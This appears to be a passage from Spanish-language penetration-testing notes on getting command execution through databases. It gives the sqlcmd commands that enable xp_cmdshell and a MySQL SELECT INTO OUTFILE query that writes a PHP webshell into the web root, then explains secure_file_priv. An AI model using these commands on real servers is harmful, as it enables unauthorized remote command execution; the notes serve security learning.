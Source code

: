Si "xp_cmdshell" no estuviese disponible, desde "sqlcmd" debería ejecutar:

```
1> EXEC sp_configure 'show advanced options', 1
2> GO
1> RECONFIGURE
2> GO
1> EXECUTE sp_configure 'xp_cmdshell', 1
2> GO
1> RECONFIGURE
2> GO
```

---

## Escribir Local Files
MySQL no cuenta con un procedimiento almacenado como xp_cmdshell, pero podemos ejecutar comandos si escribimos en una ubicación del sistema de archivos que pueda ejecutar nuestros comandos. 

Por ejemplo, supongamos que MySQL opera en un servidor web basado en PHP u otros lenguajes de programación como ASP.NET. 
Si tenemos los privilegios adecuados, podemos intentar escribir un archivo usando SELECT INTO OUTFILE en el directorio del servidor web. Luego, podemos buscar la ubicación del archivo y ejecutar nuestros comandos.

En el siguiente ejemplo podemos ver como podemos crear archivos maliciosos:
```shell-session
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

Query OK, 1 row affected (0.001 sec)
```
Cuando un navegador solicite ese archivo vía HTTP (por ejemplo `http://servidor/webshell.php?c=whoami`), el servidor web **ejecutará** el código PHP.

##### Restricciones de escritura de archivos en MySQL
En MySQL, la variable global del sistema secure_file_priv limita el efecto de las operaciones de importación y exportación de datos, como las realizadas por las sentencias LOAD DATA y SELECT … INTO OUTFILE, y la función LOAD_FILE(). Estas operaciones solo están permitidas a los usuarios con el privilegio FILE.

El "secure_file_priv" puede configurarse de la siguiente manera:

- Si está vacía, la variable no tiene efecto, lo cual no constituye una configuración segura.
- Si se configura con el nombre de un directorio, el servidor limita las operaciones de importación y exportación para que solo funcionen con los archivos de ese directorio. El directorio debe existir; el servidor no lo crea.
- Si se configura con NULL, el servidor deshabilita las operaciones de importación y exportación.

